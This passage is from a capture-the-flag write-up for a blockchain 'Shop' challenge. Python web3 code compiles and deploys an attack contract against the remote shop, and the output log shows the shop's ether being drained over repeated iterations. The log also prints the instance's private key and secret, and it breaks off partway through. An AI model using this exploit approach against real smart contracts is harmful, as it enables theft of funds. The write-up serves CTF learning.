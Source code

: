 copying that pretty much line for line, well at least the parts that compile and connect the local code to the remote
gives me this
```py
install_solc('0.6.8')
set_solc_version('0.6.8')
compiled_sol = compile_files(["Shop.sol", "Attack.sol"], output_values=['abi', 'bin'])
shopContract = compiled_sol['Shop.sol:Shop']
attackContract = compiled_sol['Attack.sol:attack']

exploit = web3.eth.contract(bytecode=attackContract['bin'], abi=attackContract['abi'])
shop = web3.eth.contract(address=contract_address, abi=shopContract['abi'])
tx_hash = send_transaction(exploit.constructor, contract_address)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
attack = web3.eth.contract(tx_receipt.contractAddress, abi=attackContract['abi'])
print(f"Attack deployed at address: {tx_receipt.contractAddress}")
```
now all we need to do is employ the strategies we used in attempt 1 and we should get the flag
writing the whole program gets us `solve.py`
now for a quick explanation
 - lines 10 - 26 connect to the netcat server and get our information
 - lines 28 - 35 connect to the rpc server and check if we have enough starting money to perform the exploit
 - lines 44 - 54 define the `send_transaction` function from attempt 1
 - lines 56 - 68 compile and connect the local contracts to the remote contracts
 - lines 70 - 90 are the exploit repeated multiple times so we have enough money, we outlined the explot in the local attempt, however since the Shop already has money we dont need to buy any item 2
 - lines 90 - 102 assert that we have enough money to buy the flag (item 3) and buy it

running the program gives us the output:
```
>>> python3 solve.py
[x] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999
[x] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999: Trying 64.23.154.146
[+] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999: Done
[*] Closed connection to blockchain.n00bzUnit3d.xyz port 39999
contract_address='0x87473d78E347c4061315331D55cb20FBd10064B3'
rpc_url='http://64.23.154.146:46029'
private_key='0x23cd124173952595228f05c9ffbd7cf72bb9ddcfdcd8ad1c983d9709749dac0d'
wallet_address='0xF530A18F3EF24B319F27DCAAE6F4407070a275D3'
secret='55c84924d938a9b84d129874a104efc85fb849ca4be59990ced3857f92c574e8'
Account Address: 0xF530A18F3EF24B319F27DCAAE6F4407070a275D3
Account Balance: 9 ether
Attack deployed at address: 0xEb20341737B3059e0F6E4384C11293844df82036
iteration 1
Shop balance: 2999.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 343.998940497 ether
iteration 2
Shop balance: 2664.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 678.998148872 ether
iteration 3
Shop balance: 2329.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 1013.997357247 ether
iteration 4
Shop balance: 1994.999350877388671875 ether
RECIPT OMMITED
```